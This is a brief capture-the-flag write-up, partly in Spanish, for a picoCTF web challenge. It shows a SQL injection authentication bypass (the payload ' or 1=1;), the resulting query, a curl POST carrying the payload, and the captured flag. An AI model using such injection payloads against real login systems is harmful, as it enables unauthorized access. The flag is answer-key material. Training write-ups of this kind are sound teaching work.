 ## Objetivo
There is a website running at `https://jupiter.challenges.picoctf.org/problem/39720/` ([link](https://jupiter.challenges.picoctf.org/problem/39720/)) or http://jupiter.challenges.picoctf.org:39720. Do you think you can log us in? Try to see if you can login!
## Solución
```
username: ' or 1=1;
password: admins
SQL query: SELECT * FROM users WHERE name='' or 1=1;' AND password='admins'

# Logged in!

Your flag is: picoCTF{s0m3_SQL_c218b685}
```
## Solución 2
```bash
victormcm-picoctf@webshell:~$ curl https://jupiter.challenges.picoctf.org/problem/39720/login.php -d "username='or 1=1;&password=admin"
<h1>Logged in!</h1><p>Your flag is: picoCTF{s0m3_SQL_c218b685}</p>victormcm-picoctf@webshell:~$ 
```
## Notas Adicionales


## Referencias
https://www.w3schools.com/sql/sql_injection.asp